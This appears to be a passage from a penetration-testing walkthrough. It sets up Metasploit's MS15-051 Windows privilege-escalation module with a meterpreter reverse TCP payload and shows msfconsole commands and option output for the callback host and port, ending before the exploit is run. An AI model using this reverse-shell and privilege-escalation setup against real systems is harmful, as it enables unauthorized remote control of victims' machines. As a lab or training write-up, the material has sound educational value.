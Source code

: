 Finally, we need a payload.  I will use another meterpreter reverse TCP payload:
```
msf exploit(windows/local/ms15_051_client_copy_image) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

Looking at the current configuration, we need to set the host and port we want the payload to call back to:
```
msf exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  7                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64
```
We can do that with the ```set LHOST``` and ```set LPORT``` commands.

I chose a random high numbered port (38592).  You can choose whatever port you want.

If we check the current configuration again with ```show options```, it looks like we are ready to go:
![options for exploit](screenshots/privesc_exploit.png)
